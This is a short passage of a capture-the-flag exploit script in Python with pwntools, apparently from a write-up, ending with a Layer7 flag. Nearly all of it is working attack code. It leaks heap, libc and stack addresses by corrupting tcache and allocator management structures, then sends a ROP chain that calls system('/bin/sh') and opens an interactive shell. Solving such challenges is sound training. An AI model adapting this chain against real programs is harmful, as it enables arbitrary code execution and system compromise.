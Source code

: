 ```python
heap = tls + 0x8d0
log.success(f"heap @ {hex(heap)}")
p.recv()

# 2. libc leak by overwriting management object
p.send(p64(1) + p64(0x1010) + p64(tls + 0x8a0) + p64(0))
what = u64(p.recv(8))
libc.address = what - 0x100 - 0xE0 - libc.symbols['_IO_2_1_stdin_']
log.success(f"libc @ {hex(libc.address)}")

# 2. stack leak by overwriting tcache_perthread_entry
base = p64(what) + p64(0) + p64(1) + p64(0x21000) + p64(0x21000) + p64(0) * 2 + p64(0x295)
payload = base
payload += p64(1 << 32) + p64(0) * 17 + p64(libc.symbols['environ'] - 0x10)
p.send(payload)

p.send(b'A'*0x10)
p.recvuntil(b"A"*0x10)
stack = u64(p.recv(8))
log.success(f"stack @ {hex(stack)}")

# 3. ROP in main RET
base = p64(what) + p64(0) + p64(1) + p64(0x21000) + p64(0x21000) + p64(0) * 2 + p64(0x295)
payload = base
payload += p64(1 << 32) + p64(0) * 17 + p64(stack - 0x128)
p.send(payload)

rop = ROP(libc)
rop.call(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b'/bin/sh'))])
p.send(b'A'*8 + rop.chain())
p.interactive()
```

`Layer7{https://velog.io/@oceanwater1234/나는-자고-싶다}`